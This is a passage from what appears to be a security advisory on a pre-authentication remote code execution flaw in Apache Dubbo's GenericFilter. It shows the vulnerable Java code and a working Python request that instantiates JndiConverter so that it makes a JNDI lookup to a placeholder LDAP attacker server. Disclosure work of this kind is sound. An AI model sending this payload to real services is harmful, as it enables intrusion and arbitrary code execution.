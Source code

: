 <h4 id="impact-3">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-5-pre-auth-rce-via-arbitrary-bean-manipulation-in-the-generic-filter-ghsl-2021-038">Issue 5: Pre-auth RCE via arbitrary bean manipulation in the Generic filter (GHSL-2021-038)</h3>
<p>As we mentioned in issue #4, the <code class="language-plaintext highlighter-rouge">GenericFilter</code> also supports additional ways of serializing the call arguments including: <code class="language-plaintext highlighter-rouge">true</code>, <code class="language-plaintext highlighter-rouge">raw.return</code> and <code class="language-plaintext highlighter-rouge">bean</code>.</p>

<p>For the case where <code class="language-plaintext highlighter-rouge">generic</code> attachment is <code class="language-plaintext highlighter-rouge">true</code> or <code class="language-plaintext highlighter-rouge">raw.return</code>, the <code class="language-plaintext highlighter-rouge">PojoUtils.realize</code> method will be invoked:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="k">if</span> <span class="o">(</span><span class="nc">StringUtils</span><span class="o">.</span><span class="na">isEmpty</span><span class="o">(</span><span class="n">generic</span><span class="o">)</span>
     <span class="o">||</span> <span class="nc">ProtocolUtils</span><span class="o">.</span><span class="na">isDefaultGenericSerialization</span><span class="o">(</span><span class="n">generic</span><span class="o">)</span>
     <span class="o">||</span> <span class="nc">ProtocolUtils</span><span class="o">.</span><span class="na">isGenericReturnRawResult</span><span class="o">(</span><span class="n">generic</span><span class="o">))</span> <span class="o">{</span>
     <span class="n">args</span> <span class="o">=</span> <span class="nc">PojoUtils</span><span class="o">.</span><span class="na">realize</span><span class="o">(</span><span class="n">args</span><span class="o">,</span> <span class="n">params</span><span class="o">,</span> <span class="n">method</span><span class="o">.</span><span class="na">getGenericParameterTypes</span><span class="o">());</span>
  <span class="o">}</span>
</code></pre></div></div>

<p>This method accepts an argument where the attacker can pass a <code class="language-plaintext highlighter-rouge">HashMap</code> containing a special key to specify the class to be instantiated and populated.</p>

<p>For example, using the python client, we can instantiate a <code class="language-plaintext highlighter-rouge">JndiConverter</code> bean (if the gadget is available in the classpath) and call its <code class="language-plaintext highlighter-rouge">setAsText</code> setter which in turn will result in the invocation of a JNDI lookup call that can be used to run arbitrary Java code:</p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="n">client</span><span class="p">.</span><span class="n">send_request_and_return_response</span><span class="p">(</span>
      <span class="n">service_name</span><span class="o">=</span><span class="s">"org.apache.dubbo.samples.basic.api.DemoService"</span><span class="p">,</span>
      <span class="n">method_name</span><span class="o">=</span><span class="s">'$invoke'</span><span class="p">,</span>
      <span class="n">param_types</span><span class="o">=</span><span class="s">"Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;"</span><span class="p">,</span>
      <span class="n">service_version</span><span class="o">=</span><span class="s">""</span><span class="p">,</span>
      <span class="n">args</span><span class="o">=</span><span class="p">[</span><span class="s">"sayHello"</span><span class="p">,</span> <span class="p">[</span><span class="s">"java.lang.String"</span><span class="p">],</span> <span class="p">[{</span><span class="s">"class"</span><span class="p">:</span> <span class="s">"org.apache.xbean.propertyeditor.JndiConverter"</span><span class="p">,</span> <span class="s">"asText"</span><span class="p">:</span> <span class="s">"ldap://&lt;attacker_server&gt;/foo"</span><span class="p">}]],</span>
      <span class="n">attachment</span><span class="o">=</span><span class="p">{</span><span class="s">"generic"</span><span class="p">:</span><span class="s">"raw.return"</span><span class="p">})</span>
</code></pre></div></div>
